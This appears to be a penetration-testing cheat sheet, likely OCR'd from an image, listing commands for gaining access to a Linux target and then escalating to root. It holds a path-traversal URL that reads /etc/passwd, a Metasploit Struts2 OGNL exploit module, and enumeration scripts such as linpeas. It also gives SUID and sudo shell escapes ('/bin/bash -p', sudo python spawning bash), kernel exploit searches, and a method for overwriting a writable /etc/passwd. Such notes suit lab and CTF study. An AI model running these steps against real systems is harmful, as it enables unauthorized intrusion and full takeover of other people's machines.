 http://<target_ip>/vulnerable_page.php?file=../../../../etc/passwd

/var/www/html/   # Common web root for Linux servers


**privesc**

./linpeas.sh           # Script to enumerate privesc vectors on Linux

./LinEnum.sh           # Another script for local enumeration


sudo -l   # Check if the current user has sudo privileges [Misconfigured Sudo Permissions check]

find / -perm -u=s -type f 2>/dev/null   # Search for SUID binaries



**initial foothold access**

searchsploit <service or software>   # Find exploits for the services running --

MSF:

use exploit/multi/http/struts2_content_type_ognl   # Example exploit

set RHOST <target_ip>

run 


ssh <username>@<target_ip>


**root level access**

id

whoami

windows winpeas.exe   # Enumerate potential privilege escalation vectors


(SUID Binaries | linux SUID )

find / -perm -u=s -type f 2>/dev/null

/bin/bash -p

https://gtfobins.github.io/


(Misconfigured Sudo Permissions)

sudo vi /etc/passwd

sudo python -c 'import os; os.system("/bin/bash")'


(Kernel Exploits)

uname -a

searchsploit linux kernel <version>


(Exploiting Writable /etc/passwd)

openssl passwd -1
